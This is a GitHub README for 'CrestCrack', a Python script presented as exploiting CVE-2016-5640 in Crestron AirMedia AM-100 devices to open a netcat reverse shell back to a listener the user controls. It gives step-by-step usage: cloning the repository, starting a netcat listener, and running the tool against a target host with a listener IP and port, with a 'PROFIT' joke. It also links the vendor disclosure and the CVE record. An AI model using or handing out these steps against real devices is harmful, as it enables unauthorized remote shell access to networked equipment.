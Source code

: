 ![GitHub Pipenv locked Python version](https://img.shields.io/github/pipenv/locked/python-version/XxLilBoPeepsxX/python3-Crest-Crack)
# CrestCrack
CrestCrack is a simple script that exploits CVE-2016-5640 / CLVA-2016-05-002 within the Crestron AirMedia AM-100 (v1.1.1.11 - v1.2.1). When supplied with arguments CrestCrack will utilize netcat to create a reverse shell between your target and a netcat listener of your choice. 

## Setup:
1. Clone a copy of CrestCrack `git clone https://github.com/vpnguy/CrestCrack`
2. Launch a netcat listener `nc -lvp 1337`
3. Execute CrestCrack against your target with your listener info `./crestcrack.py https://targethost 255.255.255.255 1337`
4. ??????
5. **PROFIT**

###Usage:
**./crescrack.py *[target host] [listener IP] [listener port]***

###Example: 
**./crescrack.py https://targethost 123.123.123.123 3311**

 

## Additional Vulnerability Information:
[Cylance Vulnerability Disclosure](https://github.com/CylanceVulnResearch/disclosures/blob/master/CLVA-2016-05-002.md)

[NIST CVE-2016-5640](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-5640)

## To be added:
- Error handling/bounds checking
- Enhanced argument support
- --help output

